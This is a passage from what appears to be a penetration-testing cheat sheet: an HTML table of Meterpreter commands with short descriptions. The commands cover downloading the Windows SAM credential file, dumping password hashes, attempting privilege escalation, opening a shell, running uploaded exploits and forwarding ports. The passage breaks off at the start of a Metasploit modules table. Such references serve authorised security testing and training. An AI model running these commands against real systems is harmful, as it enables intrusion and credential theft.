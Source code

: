 <p>Useful meterpreter commands.</p>
<table>
<thead>
<tr>
<th>Command</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td>upload file c:\\windows</td>
<td>Meterpreter upload file to Windows target</td>
</tr>
<tr>
<td>download c:\\windows\\repair\\sam /tmp</td>
<td>Meterpreter download file from Windows target</td>
</tr>
<tr>
<td>download c:\\windows\\repair\\sam /tmp</td>
<td>Meterpreter download file from Windows target</td>
</tr>
<tr>
<td>execute -f c:\\windows\temp\exploit.exe</td>
<td>Meterpreter run .exe on target – handy for executing uploaded exploits</td>
</tr>
<tr>
<td>execute -f cmd -c</td>
<td>Creates new channel with cmd shell</td>
</tr>
<tr>
<td>ps</td>
<td>Meterpreter show processes</td>
</tr>
<tr>
<td>shell</td>
<td>Meterpreter get shell on the target</td>
</tr>
<tr>
<td>getsystem</td>
<td>Meterpreter attempts priviledge escalation the target</td>
</tr>
<tr>
<td>hashdump</td>
<td>Meterpreter attempts to dump the hashes on the target</td>
</tr>
<tr>
<td>portfwd add –l 3389 –p 3389 –r target</td>
<td>Meterpreter create port forward to target machine</td>
</tr>
<tr>
<td>portfwd delete –l 3389 –p 3389 –r target</td>
<td>Meterpreter delete port forward</td>
</tr>
</tbody>
</table>
<h2>Common Metasploit Modules</h2>
<h3>Remote Windows Metasploit Modules (exploits)</h3>
<table>
<thead>
<tr>
<th>Command</th>
<th>Description</th>
</tr>
</thead>